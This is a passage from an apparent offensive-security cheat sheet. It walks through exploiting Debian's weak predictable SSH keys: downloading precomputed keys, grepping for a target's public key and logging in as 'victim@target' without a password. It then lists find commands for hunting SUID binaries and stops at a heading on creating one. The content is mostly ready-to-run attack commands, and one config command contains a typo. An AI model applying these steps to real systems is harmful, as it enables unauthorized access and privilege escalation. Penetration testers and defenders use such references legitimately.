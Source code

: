 ```
ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ...
```

&#x20; 2\. Since this is an `ssh-dss` key, we need to add that to our local copy of `/etc/ssh/ssh_config` and `/etc/ssh/sshd_config`:

```
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshs_config
/etc/init.d/ssh restart
```

&#x20; 3\. Get [g0tmi1k's debian-ssh repository](https://github.com/g0tmi1k/debian-ssh) and unpack the keys:

```
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

&#x20; 4\. Grab the first 20 or 30 bytes from the key file shown above starting with `"AAAA..."` and search the unpacked keys with `grep`:

```
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf'
dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

&#x20; 5\. If successful, this will return a public key file (68b329da9893e34099c7d8ad5cb9c940-17934.pub). To use this as a private key file to connect to the victim, drop the '.pub' extension and do:

```
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

After this you should be able to connect without requiring a password. If stuck, the details from `-vvv` (verbose mode) should provide enough details as to why.

## SUID Permissions

SUID (or setuid) stands for "Set user ID upon execution". If a file with this permission is ran, the user's ID will effectively be set to the file owner's (for that program only). For example, if a file with SUID permissions is owned by `root`, during the execution of that program the user ID will be changed to `root` even if it was executed from the unprivileged user `bob`. The SUID bit is represented by an `s` in the file permissions.

### Find SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Create a SUID binary
